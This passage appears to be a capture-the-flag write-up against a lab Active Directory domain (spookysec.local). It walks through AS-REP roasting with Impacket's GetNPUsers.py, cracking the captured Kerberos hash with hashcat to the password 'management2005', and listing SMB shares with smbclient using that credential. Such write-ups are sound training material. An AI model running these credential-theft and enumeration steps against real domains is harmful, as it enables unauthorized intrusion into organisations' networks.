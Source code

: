  Impacket may also need you to use a python version >=3.7. In the AttackBox you can do this by running your command with `python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile ./myusers.txt -dc-ip 10.10.219.70 spookysec.local/` 
 
-  myusers.txt has the two usernames stated above

 And I got 
 
 ```
 $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:673e94a3b1b5d5f8d933f4bd195c5b6a$d0e401e6dfe20a1e1ae75ad61c766ca8326d7ee8924bdf0b09108e18a15baa34f61756914c85610283df33fd352f7b023814a764673711ded6a3c47d7e2abf34ee74e88e54e0fd88be33e1bc6c60e2193d52b26f6630a2dca9a3c568db149300140440d525314f7671f25203994507d8c959cba77117649c0f8cf5748a6bcf072c043ed24df5b61b5debd9a139b28e9b300fc90cac962d7bb151d8e2ad4d7b77254829dcd11143cd9012e4343f85565115e9b7cf99230568108e01700e378f290dd5ed6ea590504e251ec24100deb547903408c55c4dc1518fcb4761612b63d52ec384ec09a47289df142b1d4cecd942ca2e

```

for user svc-admin I get the above.
I save it in a file called target_hashes.txt

We are going to use Hashcat with ` hashcat -m 18200 target_hashes.txt [list of passwords]

-   **-m 18200** designates the type of hash we are cracking kerberos
-   **target_hashes.txt** is our input file of hashes
-   pass.txt is the absolute path to the wordlist file for this dictionary

and then `hashcat -m 18200 target_hashes.txt --show`
and get 
```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:673e94a3b1b5d5f8d933f4bd195c5b6a$d0e401e6dfe20a1e1ae75ad61c766ca8326d7ee8924bdf0b09108e18a15baa34f61756914c85610283df33fd352f7b023814a764673711ded6a3c47d7e2abf34ee74e88e54e0fd88be33e1bc6c60e2193d52b26f6630a2dca9a3c568db149300140440d525314f7671f25203994507d8c959cba77117649c0f8cf5748a6bcf072c043ed24df5b61b5debd9a139b28e9b300fc90cac962d7bb151d8e2ad4d7b77254829dcd11143cd9012e4343f85565115e9b7cf99230568108e01700e378f290dd5ed6ea590504e251ec24100deb547903408c55c4dc1518fcb4761612b63d52ec384ec09a47289df142b1d4cecd942ca2e:management2005
```

with the password at the end!
Password : management2005

## Enumeration 

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

I will use smbclient with -L to list the shares.
To find all the shares I type : `smbclient -L [ip] -U svc-admin` and using the password from before (management2005).

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 

```
